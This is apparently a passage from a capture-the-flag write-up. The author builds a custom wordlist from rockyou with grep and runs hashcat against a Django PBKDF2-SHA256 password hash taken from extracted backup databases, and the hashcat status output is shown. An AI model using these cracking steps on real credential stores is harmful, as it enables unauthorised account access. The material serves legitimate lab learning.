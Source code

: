 ![script bash](./pic/script.png)
	
with the password we can go on and extract all the files from the backup folder.

the databases that we extrack have all the same data with just different hashes.
i tried to crack a bunch of them with rockyou but it was too slow so i stopped there.

Eventually i thinked about optimizing the wordlist (as a fella sudgested on the forum) with the password i found previously on the other db.
In fact there are 4 db with sha1 hases and just one with _pbdf2_sha256_.

From all the databases i managed to crack only one user pass, 
the tom password in fact was slightly different every time but with a constant word.

So i tried to create a custom list from rockyou with lines that was containg only that word inside
```bash
	grep '[REDACTED]' /usr/share/wordlists/rockyou.txt > rockingtom.txt
```
with this new wordlist i tried to aporach the _pbdf2_sha256_ hash:
```bash
	hashcat -a 0 -m 10000 tom.hash rockingtom.txt
```
output:
```	
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => s

Session..........: hashcat
Status...........: Running
Hash.Mode........: 10000 (Django (PBKDF2-SHA256))
Hash.Target......: pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQO...9gtro=
Time.Started.....: Tue Oct 17 00:46:52 2023 (11 secs)
Time.Estimated...: Tue Oct 17 00:51:11 2023 (4 mins, 8 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockingtom.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       75 H/s (8.79ms) @ Accel:256 Loops:256 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 0/18729 (0.00%)
Rejected.........: 0/0 (0.00%)
Restore.Point....: 0/18729 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:297984-298240
Candidate.Engine.: Device Generator
Candidates.#1....: [REDACTED] -> [REDACTED]
Hardware.Mon.#1..: Util: 97%
```